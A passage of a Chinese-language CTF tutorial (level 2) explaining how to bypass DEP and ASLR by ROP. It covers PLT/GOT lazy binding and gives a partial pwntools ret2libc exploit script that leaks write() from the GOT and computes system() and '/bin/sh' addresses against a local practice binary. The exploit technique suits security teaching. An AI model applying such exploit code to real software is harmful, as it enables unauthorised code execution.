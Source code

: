 

### level 2  - 通过 ROP 绕过 DEP 和 ASLR 防护

打开ALSR保护：

```shell
sudo -s
echo 2 > /proc/sys/kernel/randomize_va_space
```

开ALSR之后，我们每次从gdb中查找的地址都是变化的。但是程序本身在内存中的地址并不是随机的。如图所示：

![](https://raw.githubusercontent.com/skyedai910/Picbed/master/img/20191107140517.png)

思路是：我们泄露出libc.so某些函数在内存中地址，然后利用泄露出来的函数地址根据函数的偏移量计算得出system()和"/bin/sh"的内存地址，然后执行system("/bin/sh")

由于题目没有给出libc.so，使用``ldd``命令查询程序调用的函数库，然后将函数库文件拷贝当前目录

```shell
$ ldd level2
	linux-gate.so.1 (0xf7fd4000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7ddc000)
	/lib/ld-linux.so.2 (0xf7fd6000)
$ sudo cp /lib/i386-linux-gnu/libc.so.6 libc.so
```

利用objdump查看程序的plt和got表，因为我们只能先利用程序所使用的函数，去泄露对应的地址。（图一.plt表，图二.got表）

![](https://raw.githubusercontent.com/skyedai910/Picbed/master/img/20191107142252.png)

![](https://raw.githubusercontent.com/skyedai910/Picbed/master/img/20191107142806.png)

这里我们使用``write@plt()``函数把存储在``write@GLIBC_2.0``(或称``write.got``)的``write()``函数的内存地址打印出来。然后计算system()和"/bin/sh"与write()在函数库libc.so中的offset（相对地址）得到最后的地址。

> Q: 为什么用的是调用write@plt()打印write@got()？
>
> A:`write()`函数实现是在`libc.so`当中，那我们调用的`write@plt()`函数为什么也能实现`write()`功能呢? 这是因为linux采用了延时绑定技术，当我们调用`write@plit()`的时候，系统会将真正的`write()`函数地址link到got表的`write.got`中，然后`write@plit()`会根据`write.got` 跳转到真正的`write()`函数上去。（如果还是搞不清楚的话，推荐阅读《程序员的自我修养 - 链接、装载与库》这本书）

再将pc指针return回`vulnerable_function()`函数，就可以进行ret2libc溢出攻击，并且这一次我们知道了`system()`在内存中的地址，就可以调用`system()`函数来获取我们的shell了。

本地EXP

> 函数、gadget等地址，可能因电脑不同而不一致。请动手操作，获取本机相关地址后，自行替换

```python
# coding:utf-8
from pwn import *

context.log_level = 'debug'

elf = ELF("./level2")
libc = ELF("./libc.so")
p = process("./level2")

write_plt = elf.symbols['write'] # 获取程序中的write.plt
write_got = elf.got['write'] # 获取程序中的write.got
vulfun_addr = 0x08048404 # 漏洞函数地址
payload_1 = 'a'*140 + p32(write_plt) + p32(vulfun_addr) + p32(1) + p32(write_got) + p32(4)

p.send(payload_1)
write_addr = u32(p.recv(4)) # 接受返回的内存地址

libc_addr = write_addr - libc.symbols['write']
system_addr = libc_addr + libc.symbols['system']
binsh_addr = libc_addr + next(libc.search('/bin/sh')) # 寻找字符串地址
```